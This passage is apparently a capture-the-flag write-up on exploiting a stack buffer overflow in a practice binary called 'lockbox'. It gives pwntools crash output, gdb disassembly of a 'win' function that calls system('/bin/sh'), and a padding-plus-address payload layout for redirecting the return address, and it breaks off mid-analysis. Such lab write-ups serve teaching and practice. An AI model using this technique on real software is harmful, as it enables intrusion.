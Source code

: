 `rip` points to
```
0x00000000004012ad <+181>:   ret
```
It looked like the fault happened when the program popped `0x6161616e6161616d` off the stack and tried to return to that address.
That data starts at the 48th byte of data after my key payload

After sending a new payload with 16 A's + `addr[key]` + 4 0's + 48 b's + `addr[win]`  + 4 0's, I got a segfault in a different place

```
└─$ python3 newdbg.py
[+] Starting local process './lockbox': pid 65599
/home/kali/Desktop/4-Week/newdbg.py:95: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  d = p.recvuntil(">")
[*] Process './lockbox' stopped with exit code -11 (SIGSEGV) (pid 65599)
[+] Parsing corefile...: Done
[*] '/home/kali/Desktop/4-Week/core.65599'
    Arch:      amd64-64-little
    RIP:       0x4011f7
    RSP:       0x7ffc6b467de8
    Exe:       '/home/kali/Desktop/4-Week/lockbox' (0x400000)
    Fault:     0x4242424242424242
[*] rsp = 0x7ffc6b467de8
```
What we like about this Segfault is that it happens at an address in `win`, meaning we've successfully jumped there and it's almost returned
```
(gdb) $ disas win
Dump of assembler code for function win:
   0x00000000004011b6 <+0>:    endbr64
   0x00000000004011ba <+4>:    push   %rbp
   0x00000000004011bb <+5>:    mov    %rsp,%rbp
   0x00000000004011be <+8>:    mov    $0xfffffffffffffff0,%rax
   0x00000000004011c5 <+15>:    and    %rax,%rsp
   0x00000000004011c8 <+18>:    mov    0x2e82(%rip),%eax        # 0x404050 <key>
   0x00000000004011ce <+24>:    cmp    $0xdaddb0dd,%eax
   0x00000000004011d3 <+29>:    jne    0x4011e6 <win+48>
   0x00000000004011d5 <+31>:    movabs $0x68732f6e69622f,%rax
   0x00000000004011df <+41>:    mov    %rax,0x2e7a(%rip)        # 0x404060 <mystring>
   0x00000000004011e6 <+48>:    lea    0x2e73(%rip),%rax        # 0x404060 <mystring>
   0x00000000004011ed <+55>:    mov    %rax,%rdi
   0x00000000004011f0 <+58>:    call   0x401090 <system@plt>
   0x00000000004011f5 <+63>:    nop
   0x00000000004011f6 <+64>:    pop    %rbp
=> 0x00000000004011f7 <+65>:    ret
```

However, looking back to the compare operation in `win` where it checks the secret, we can see that `eax` is overwritten by my padding:
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 keytest.py

[*] Switching to interactive mode
Breakpoint 1, 0x00000000004011ce in win ()
(gdb) $ disas win
Dump of assembler code for function win:
   0x00000000004011b6 <+0>:    endbr64
   0x00000000004011ba <+4>:    push   %rbp
   0x00000000004011bb <+5>:    mov    %rsp,%rbp
   0x00000000004011be <+8>:    mov    $0xfffffffffffffff0,%rax
   0x00000000004011c5 <+15>:    and    %rax,%rsp
   0x00000000004011c8 <+18>:    mov    0x2e82(%rip),%eax        # 0x404050 <key>
```